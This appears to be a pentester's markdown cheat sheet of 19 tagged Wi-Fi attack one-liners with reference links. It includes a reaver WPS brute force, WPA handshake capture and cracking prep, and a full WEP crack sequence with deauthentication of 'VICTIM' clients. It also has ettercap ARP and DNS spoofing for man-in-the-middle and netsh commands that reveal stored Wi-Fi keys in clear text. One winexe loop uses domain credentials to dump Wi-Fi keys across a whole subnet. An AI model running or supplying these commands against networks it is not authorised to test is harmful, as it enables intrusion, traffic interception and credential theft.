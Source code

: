 ### 1. try to reave WPS wifi
```
reaver -i mon0 -c <channel> -b <bssid> -vv
```
**- brute,wireless,wifi**
#### References:

http://tools.kali.org/wireless-attacks/reaver
__________
### 2. WIFI enable USB2 before USB3 : helps with passthrough
```
echo 1 > /sys/module/usbcore/parameters/old_scheme_first
```
**- linux,wireless,wifi,configuration**
#### References:

http://forums.fedoraforum.org/archive/index.php/t-30868.html
__________
### 3. WIFI : Scan the range in an orderly manner
```
airodump-ng -f 4000  --cswitch 1 --band abg  wlan0mon --output-format csv -w WifiOverview
```
**- enumeration,wireless,wifi**
#### References:

https://www.aircrack-ng.org/doku.php?id=airodump-ng
__________
### 4. WIFI : Enable monitor mode on interface
```
ifconfig wlan0 down; iwconfig wlan0 mode monitor; ifconfig wlan0 up;
```
**- linux,networking,wireless,wifi**
#### References:

https://www.aircrack-ng.org/doku.php?id=airodump-ng
__________
### 5. Windows Wireless
```
netsh wlan show profile
```
**- networking,passwords,enumeration,Windows,wireless,wifi**
#### References:

http://Microsoft.com
__________
### 6. Windows Wireless
```
netsh wlan show profile name="[SSID]" key=clear
```
**- networking,passwords,Windows,wireless,wifi**
#### References:

https://www.labnol.org/software/find-wi-fi-network-password/28949/
__________
### 7. loop dump wifi keys
```
for host in $(cat localsubnet.txt); do echo "Trying $host"; winexe --user [Domain]/[user]%[pass] //$host "netsh wlan export profile name=[PROFILE] key=clear"; done
```
**- bash,loop,passwords,enumeration,wireless,wifi**
#### References:

https://yg.ht
https://www.labnol.org/software/find-wi-fi-network-password/28949/
__________
### 8. ARP Spoofing everything
```
ettercap -i wlan0 -L etter.log -T -M arp:remote -L [CLIENT+TARGET].log /[GW IP]// /[TARGET IP]//
```
**- linux,networking,MitM,wifi**
#### References:

https://ettercap.github.io/ettercap/
https://yg.ht
http://www.thegeekstuff.com/2012/05/ettercap-tutorial
__________
### 9. ARP Spoofing DNS
```
ettercap -i [interface] -L etter.log -T -P dns_spoof -M arp:remote -L [CLIENT+TARGET].log /[GW IP]// /[TARGET IP]//
```
**- linux,networking,MitM,wifi**
#### References:

https://ettercap.github.io/ettercap/
https://yg.ht
http://www.thegeekstuff.com/2012/05/ettercap-tutorial
__________
### 10. Wireless survey WIFI
```
airmon-ng start wlan1
```
**- linux,wireless,wifi**
#### References:

http://www.aircrack-ng.org/doku.php?id=airmon-ng
__________
### 11. Wireless survey WIFI, useful if airmon start is broke
```
ifconfig wlan0 down; iwconfig wlan0 mode monitor; ifup wlan0
```
**- linux,networking,wireless,wifi**
#### References:

http://www.aircrack-ng.org/doku.php?id=airmon-ng
__________
### 12. WIFI WPA handshake capture
```
airodump-ng -c [Channel #] --bssid [MAC Address] --showack -w [SSID] wlan1mon
```
**- linux,networking,wireless,wifi,packet capture**
#### References:

https://www.aircrack-ng.org/doku.php?id=cracking_wpa
__________
### 13. WIFI WPA handshake prep
```
wpaclean [OUTPUT] [INPUT]
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=cracking_wpa
__________
### 14. WIFI WPA handshake prep
```
aircrack-ng [INPUT.cap] -J [OUTPUT]
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=cracking_wpa
__________
### 15. wep crack : 1) start capturing IV's
```
airodump-ng -c 11 --bssid [VICTIM MAC] -w [OUTPUT] mon0
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 16. wep crack 2) De auth clients
```
aireplay-ng -0 0 --ignore-negative-one -e [SSID] -a [AP MAC] -c [VICTIM MAC] mon0
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 17. wep crack 3) Create a fake auth to the AP
```
aireplay-ng -1 0 -e [VICTIM SSID] -a [VICTIM MAC] -h [OurMac] wlan0
```
**- linux,networking,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 18. wep cracking
```
aireplay-ng -3 -b [VICTIM MAC] -h [OurMac] wlan0
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
### 19. wep cracking
```
aircrack-ng -b [VICTIM MAC] [OUTPUT]*cap
```
**- linux,wireless,wifi,cracking**
#### References:

https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
__________
